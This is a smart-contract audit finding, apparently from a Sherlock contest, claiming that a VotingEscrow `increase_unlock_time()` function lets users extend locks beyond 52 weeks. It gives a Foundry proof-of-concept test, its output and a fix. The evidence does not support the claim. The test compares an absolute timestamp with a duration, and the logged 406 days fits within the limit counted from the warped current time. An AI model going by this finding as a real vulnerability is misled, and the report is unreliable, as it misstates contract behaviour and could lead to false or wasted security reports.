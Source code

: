 Steep Sapphire Gorilla

Medium

# users can increase their lock times more than maximum limit of 52 weeks

## Summary
users can call `increase_unlock_time()` function multipull times in different timestamps to increase more than 52 weeks.

## Vulnerability Detail
its possible for every voter to call this function and increase `unlock_time`:

```solidity
function increase_unlock_time(uint _tokenId, uint _lock_duration) external nonreentrant {
        assert(_isApprovedOrOwner(msg.sender, _tokenId));

        LockedBalance memory _locked = locked[_tokenId];
        uint unlock_time = (block.timestamp + _lock_duration) / WEEK * WEEK; // Locktime is rounded down to weeks

        require(_locked.end > block.timestamp, 'Lock expired');
        require(_locked.amount > 0, 'Nothing is locked');
        require(unlock_time > _locked.end, 'Can only increase lock duration');
        require(unlock_time <= block.timestamp + MAXTIME, 'Voting lock can be 52 weeks max');

        _deposit_for(_tokenId, 0, unlock_time, _locked, DepositType.INCREASE_UNLOCK_TIME);
    }
```

the issue is `MAXTIME` limit wrongly checked.

for better understanding of issue please run the POC

- add this function in to `VotingEscrow.t.sol` contract
- run with this command `forge test --mt testLockTimeBug -vvv`

```solidity
function testLockTimeBug() public {
        flowDaiPair.approve(address(escrow), TOKEN_1);
        
        uint tokenId1 = escrow.create_lock(TOKEN_1, 52 weeks);
        vm.warp(block.timestamp + 1 weeks);
        escrow.increase_unlock_time(tokenId1, 52 weeks);
        vm.warp(block.timestamp + 2 weeks);
        escrow.increase_unlock_time(tokenId1, 52 weeks);
        vm.warp(block.timestamp + 3 weeks);
        escrow.increase_unlock_time(tokenId1, 52 weeks);

        uint lockedEnd = escrow.locked__end(tokenId1);
        console.log(lockedEnd);
        
        assertGt(lockedEnd, 52 weeks);
    }
```

output:

```solidity
[PASS] testLockTimeBug() (gas: 1384070)
Logs:
  35078400 // 35078400 / 3600 / 24 = 406 days
```
## Impact
attacker can manipulate vote outcome and be able to get more rewards.

## Code Snippet
```solidity
function increase_unlock_time(uint _tokenId, uint _lock_duration) external nonreentrant {
        assert(_isApprovedOrOwner(msg.sender, _tokenId));

        LockedBalance memory _locked = locked[_tokenId];
        uint unlock_time = (block.timestamp + _lock_duration) / WEEK * WEEK; // Locktime is rounded down to weeks

        require(_locked.end > block.timestamp, 'Lock expired');
        require(_locked.amount > 0, 'Nothing is locked');
        require(unlock_time > _locked.end, 'Can only increase lock duration');
        require(unlock_time <= block.timestamp + MAXTIME, 'Voting lock can be 52 weeks max');

        _deposit_for(_tokenId, 0, unlock_time, _locked, DepositType.INCREASE_UNLOCK_TIME);
    }
    
    function max_lock(uint _tokenId) public {
        if(maxLockIdToIndex[_tokenId] !=0 && max_lock_enabled) {
            LockedBalance memory _locked = locked[_tokenId];
            uint unlock_time = (block.timestamp + MAXTIME) / WEEK * WEEK; // Locktime is rounded down to weeks

            if(unlock_time > _locked.end) {
                require(_locked.end > block.timestamp, 'Lock expired');
                require(_locked.amount > 0, 'Nothing is locked');
                require(unlock_time <= block.timestamp + MAXTIME, 'Voting lock can be 52 weeks max');

                _deposit_for(_tokenId, 0, unlock_time, _locked, DepositType.INCREASE_UNLOCK_TIME);
            }
        }
    }
```

https://github.com/sherlock-audit/2024-06-velocimeter/blob/63818925987a5115a80eff4bd12578146a844cfd/v4-contracts/contracts/VotingEscrow.sol#L939-L951

## Tool used

Manual Review

## Recommendation
consider account the previous lock time update and save timestamp in state/storage variable.